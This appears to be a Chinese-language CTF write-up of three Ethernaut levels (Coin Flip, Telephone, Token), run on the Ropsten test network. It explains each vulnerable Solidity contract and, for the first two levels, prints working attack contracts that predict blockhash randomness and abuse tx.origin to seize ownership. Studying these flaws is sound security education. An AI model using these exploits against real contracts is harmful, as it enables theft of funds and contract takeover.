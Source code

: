 ```yaml
---
note:
    createdAt: 2020-05-26T02:16:43.140Z
    modifiedAt: 2020-06-07T01:37:27.964Z
    tags: []
---
```

# Ethernaut WP

## 前言

现在自己的solidity的基础语法和相关内容已经了解了，现在通过题目来加深一下以太坊合约漏洞的挖掘方式

## Coin Flip

首先点击 `Get new instance`实例化一个合约，对于我做时的场景

> Address: "0x4b7e814de0f82bd45e2f736a72f5762bf10e6361"
> Test Network: Ropsten

要求：
>This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

### 源码分析

先去etherscan上将源码保存下来

```solidity
/**
 *Submitted for verification at Etherscan.io on 2018-05-16
*/

pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

分析一下源码

可以看到决定游戏胜利的条件是`consecutiveWins`的大小达到`10`，向下挖掘可以改变此值的位置，发现可以通过猜伪随机数的方式来实现增加。

在这里补充下 `block`的概念
>block.number(uint)：solidity中的一个EVM内置的全局变量，其内容是当前交易的区块高度
>block.blockhash(uint blocknumber)：返回给定区块的哈希值

可以看到题目中使用的是上一个区块的hash值，而上一个区块的hash值已经是一个确定的值了，因而可以通过模拟合约的行为来进行猜测

> 补充一个交易的详细信息来方便理解交易与区块的关系与概念

```text
Transaction Hash: x8c20b80588d14ddfc6cd3926a92aa17502b3cb021323bfbd438a8449a8c5e4ae
Status: Success
Block: 8038749
Timestamp: 1 hr 12 mins ago (Jun-06-2020 01:55:46 PM +UTC)
From: 0xa9af91b9567fbebbf95fc82c0c51a70deab10dc2
To: Contract 0xc833a73d33071725143d7cf7dfd4f4bba6b5ced2
Value: 0 Ether ($0.00)
Transaction Fee: 0.0006480639 Ether ($0.000000)
```

编写攻击合约

```solidity
contract exp {
    address con_addr = 0x4b7e814de0f82bd45e2f736a72f5762bf10e6361;
    CoinFlip c = CoinFlip(con_addr);

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function guess() public {
        uint256 blockValue = uint256(block.blockhash(block.number-1));
        uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
        bool side = coinFlip == 1 ? true : false;
        c.flip(side);
    }

    function getFlag() public {
        for(uint i = 0; i < 10;i++) {
            guess();
        }
    }
}
```

利用`remix ide`将合约部署到测试网络上，十次之后即可通关

## Telephone

典型的 `tx.origin`与`msg.sender`的区别的问题，初始化实例后

> Address: 0x9450bcddcaa9ffc439732f08ebb90d033473ee3b
> Test Network: Ropsten

要求：
> Claim ownership of the contract below to complete this level.

### 源码分析

```solidity
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

可以看到只要使tx.origin与msg.sender不同即可

补充下相关内容
> tx.origin：交易的发起人，站在整个交易的顶点，只存在个人地址
> msg.sender：具体调用每一个方法的人，例如合约地址或者个人地址

所以可以看到只要另起合约即可使关系发生变化，即 tx.origin => 个人账户，msg.sender => 合约账号

编写攻击合约

```solidity
contract exp {
    address cont_addr = 0x9450bcddcaa9ffc439732f08ebb90d033473ee3b;
    Telephone t = Telephone(cont_addr);

    function change() public {
        t.changeOwner(tx.origin);
    }
}
```

将合约部署到测试网络上后即可实现owner的转换

## Token

考察uint的内容，初始化实例后

> Address:  0x6545df87f57d21cb096a0bfcc53a70464d062512
> Test Network: Ropsten

要求：

> Preferably a very large amount of tokens.

### 源码分析

```solidity
pragma solidity ^0.4.18;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

可以看到对于mapping类型的balances变量，其值的类型uint永大于0，因此transfer的限制基本就无用了，直接随意转一个超级大的数即可
